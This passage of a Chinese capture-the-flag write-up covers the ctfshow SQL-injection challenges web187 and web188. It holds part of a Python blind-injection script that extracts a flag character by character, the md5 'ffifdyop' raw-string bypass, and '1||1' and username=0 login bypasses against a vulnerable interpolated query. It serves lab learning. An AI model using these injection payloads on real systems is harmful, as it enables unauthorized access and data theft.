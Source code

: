 ```cobol
        payload1 =payload.format(createStrNum(flag+j+"%"))
        # print(payload1)
        data = {
            'tableName':payload1
        }
        re = requests.post(url=url,data=data)
        if "$user_count = 0;" not in re.text:
            flag += j
            print(flag)
            if j == '}':
                exit()
            break
```

## web187 md5 + sql ==密码

看到md5我们就可以将sql注入和md5的特殊字符串联系起来

```cobol
content: ffifdyop
hex: 276f722736c95d99e921722cf9ed621c
raw: 'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c
string: 'or'6]!r,b
```

执行查看回显即可



<img src="https://i-blog.csdnimg.cn/blog_migrate/ba9aac8e87a5273b387dfac6c35c2168.png" alt="" style="max-height:196px; box-sizing:content-box;" />


## web188 弱比较绕过

这里我确实没看懂

但是看了wp 恍然大悟

```php
  $sql = "select pass from ctfshow_user where username = {$username}";
```

这个是我们的查询语句 变量直接放在 sql语句中 所以我们可以进行构造

这里有一个最简单的就是万能密码

```php
  $sql = "select pass from ctfshow_user where username = {$username}";
 
变为
 
  $sql = "select pass from ctfshow_user where username = 1||1";
```

那么就可以登入成功了

这里还有一个方式 username=0
